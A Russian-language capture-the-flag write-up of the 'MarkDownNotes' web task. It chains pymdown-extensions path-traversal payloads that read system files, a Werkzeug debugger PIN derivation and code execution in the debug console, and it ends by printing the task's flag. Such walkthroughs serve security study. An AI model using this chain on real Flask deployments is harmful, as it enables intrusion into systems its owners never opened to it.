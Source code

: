
Райтап на Web таск от CyberEd - "MarkDownNotes"
Описание:
"MarkDownNotes - очередной сайт для хранения заметок. Мы заботимся о безопасности данных наших клиентов! Однако на поддержание сервиса уходит много средств, поэтому бесплатно предоставляются только 10 заметок. Используйте их с умом! Акция: найдите багу по программе бабаунти и докажите её, исполнив файл read_flag в корне приложения, и получите бесплатное пользование сервисом навсегда!"

После регистрации на [сайте](http://mdn.cyber-ed.space) нас встречает сервис заметок:
![main_site](https://github.com/k3vg3n/MDN/assets/87700221/7a506887-a406-41d5-a6d2-1bda25fa43d7)
Добавлять можно до 10 заметок на аккаунт.


### Разведка
Запустим nikto:
![nikto_out](https://github.com/k3vg3n/MDN/assets/87700221/d70df5d4-7285-463c-b0a1-5e2c44769ed0)


Переходим на http://mdn.cyber-ed.space/console:
![flask_console](https://github.com/k3vg3n/MDN/assets/87700221/6549e1d5-abeb-4844-86d3-3ec23e4dada3)

На нем находится Werkzeug Debugger, значит сайт написан на Flask.
Чтобы зайти в консоль и выполнить файл read_flag нам нужно знать pin-код, а у нас его нет.
Из [статьи](https://habr.com/ru/articles/738238/pin-код) узнаем, что pin-код flask генерируетcя на основе:
1.  Appname (`getattr(app, "__name__", type(app).__name__)`) по умолчанию имеет значение `Flask`
2. `getattr(mod, "__file__", None),` или путь до Flask
3. Modname, по умолчанию `flask.app`
4. Username - имя пользователя в системе linux
5. MAC-адрес устройства
6. Machine_id - ID устройства
Нам сразу известны Appname и Modname.
Надо найти остальные значения, прочитав файлы в системе.

### Получаем AFR (arbitrary file read)
Тут обращаемся к особенности таска - *markdown*.
Ищем расширения на python:
![markdown_search](https://github.com/k3vg3n/MDN/assets/87700221/21fad3e3-d858-4a2d-87f8-feded7cb1525)

Находим два основных расширения: Python-Markdown и pymdown-extensions.
На Python-Markdown я не нашел AFR, в отличии от pymdown-extensions ([CVE-2023-32309](https://www.cve.org/CVERecord?id=CVE-2023-32309), [github](https://github.com/advisories/GHSA-jh85-wwv9-24hv)):
![pymdown_AFR](https://github.com/k3vg3n/MDN/assets/87700221/ec8d3dfd-5423-496a-bd68-461ae102a6eb)

Создадим шаблон, который мы будем менять и отправлять: `--8<-- "../../../../etc/passwd"`
Попробуем прочитать /etc/passwd (`--8<-- "../../../../etc/passwd"`):
![passwd](https://github.com/k3vg3n/MDN/assets/87700221/080749f6-43dc-4ac7-9753-82635796aa36)

Успешно.
Теперь мы можем прочитать нужные нам файлы для генерации pin-кода.

### Получение данных и генерация pin-кода
Имя пользователя мы уже получили из /etc/passwd - "app"
Чтобы получить MAC-адрес, нам нужно знать по какому интерфейсу устройство выходит в сеть. Для этого читаем файл `/proc/net/dev` (`--8<-- "../../../../proc/net/dev"`):
```
Inter-| Receive | Transmit face |bytes packets errs drop fifo frame compressed multicast|bytes packets errs drop fifo colls carrier compressed eth0: 86949846 338155 0 0 0 0 0 0 100381675 357756 0 0 0 0 0 0 lo: 1341217 13102 0 0 0 0 0 0 1341217 13102 0 0 0 0 0 0
```
Видно, что соединение происходит по eth0.
Смотрим MAC-адрес (`--8<-- "../../../../sys/class/net/eth0/address"`):
`02:42:ac:18:00:04`

Чтобы найти machine-id читаем файл `/etc/machine-id`:
`04a9330868336aa19c457b402d5a4f7c`
и  `/proc/self/cgroup`:
```
12:blkio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 11:rdma:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 10:pids:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 9:perf_event:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 8:freezer:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 7:net_cls,net_prio:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 6:devices:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 5:hugetlb:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 4:cpu,cpuacct:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 3:cpuset:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 2:memory:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 1:name=systemd:/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9
```
Из `/proc/self/cgroup` нам нужна последняя строчка:
`0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9`

Чтобы найти путь к app.py мы должны вызвать ошибку в Flask. Для этого можно отправить POST запрос на создание заметки без указания "title" и "content": 
```
POST 
http://mdn.cyber-ed.space/profile 
Cookie: session=your_cookie
```
![burp](https://github.com/k3vg3n/MDN/assets/87700221/981eca62-255a-4507-ac4d-456c63e77fae)

Путь к приложению: `/usr/local/lib/python3.8/site-packages/flask/app.py`

Итого имеем:
```
machine_id: 04a9330868336aa19c457b402d5a4f7c
username: app
name: Flask
Modname: flask.app
MAC: 02:42:ac:18:00:04
path: /usr/local/lib/python3.8/site-packages/flask/app.py
```

Для генерации pin-кода и cookie используем [этот скрипт](https://github.com/SidneyJob/Werkzeuger).

Устанавливаем:
```
git clone https://github.com/SidneyJob/Werkzeuger
cd Werkzeuger
```

Запускаем скрипт, подставляя наши значения:
```
python gen.py --username app --path /usr/local/lib/python3.8/site-packages/flask/app.py --mac 02:42:ac:18:00:04 --machine_id 04a9330868336aa19c457b402d5a4f7c  --cgroup 0::/docker/dd35ea90bfcd720753811d819d07487f73bfcb410a477e014b0edb56db5bf0f9

```
Получаем куки:
![run_script](https://github.com/k3vg3n/MDN/assets/87700221/14e40c6d-a0ec-4853-8a4a-92fcd6295981)

![run_script_out](https://github.com/k3vg3n/MDN/assets/87700221/fd20a744-4bbc-4eb1-8154-6cb34596c43b)


Нам нужны строчки:
```
[+] Success!
[*] PIN: 233-535-197
[*] Cookie: __wzd49d0c27c7911c3fc007f=1710008146|6e27d4a6cf2a
[*] Modname: flask.app
[*] Appname: Flask
```


### Получаем доступ к консоли
Если у Вас превышен лимит на ввод pin-кода, то открываем [консоль](http://mdn.cyber-ed.space/console) и подставляем куки в браузер (иначе можете просто ввести pin):
![new_cookie](https://github.com/k3vg3n/MDN/assets/87700221/cf07246a-b090-4da9-b2b3-ca667192cfbf)

Перезагружаем страницу.
Мы зашли в консоль.
![console_enter](https://github.com/k3vg3n/MDN/assets/87700221/7dd318ef-c31c-430b-8d00-d6c3ecf2617a)



### Получаем флаг
Посмотрим файлы в директории:
```
import subprocess
subprocess.run(["ls", "-lah"], capture_output=True)
```
Видим тот самый файл с флагом.
```
CompletedProcess(args=['ls', '-lah'], returncode=0, stdout=b'total 72K\ndrwxr-xr-x 1 app app 4.0K Mar 9 15:14 
ndrwxr-xr-x 1 root root 4.0K Mar 5 14:38 
-rw-r--r-- 1 app app 519 Sep 23 20:02 config.py
-rwxr-xr-x 1 app app 151 Sep 22 15:07 entrypoint.sh
-rw-r--r-- 1 app app 162 Sep 23 18:35 main.py
-rw-r--r-- 1 app app 599 Sep 22 15:07 manage.py
drwxr-xr-x 1 app app 4.0K Sep 22 14:19 models
drwxr-xr-x 1 app app 4.0K Sep 23 19:26 modules
---s--x--x 1 root root 17K Sep 23 16:40 read_flag
-rw-r--r-- 1 app app 118 Sep 23 18:38 requirements.txt
drwxr-xr-x 4 root root 4.0K Sep 22 14:52 static
drwxr-xr-x 1 app app 4.0K Sep 22 14:23 templates
drwxr-xr-x 1 app app 4.0K Sep 23 18:33 utils', stderr=b'')
```
Смотрим в какой директории мы находимся:
```
subprocess.run(["pwd"], capture_output=True)
```
Мы находимся в папке "/app":
`CompletedProcess(args=['pwd'], returncode=0, stdout=b'/app\n', stderr=b'')`

Чтобы выполнить файл "read_flag" вводим команду:
```
subprocess.run(["/app/read_flag"], capture_output=True)
```
Получаем флаг:
```
CompletedProcess(args=['/app/read_flag'], returncode=0, stdout=b'flag{fl45k_d3bu6_m0d3_15_un54f3}', stderr=b'')
```
![console_flag](https://github.com/k3vg3n/MDN/assets/87700221/5ea91a4d-be37-4294-b1e7-258164b0c2b8)

##### Флаг: flag{fl45k_d3bu6_m0d3_15_un54f3}


Спасибо за прочтение!

Полезные ссылки:
https://habr.com/ru/articles/738238/
https://security.snyk.io/vuln/SNYK-PYTHON-PYMDOWNEXTENSIONS-5537103

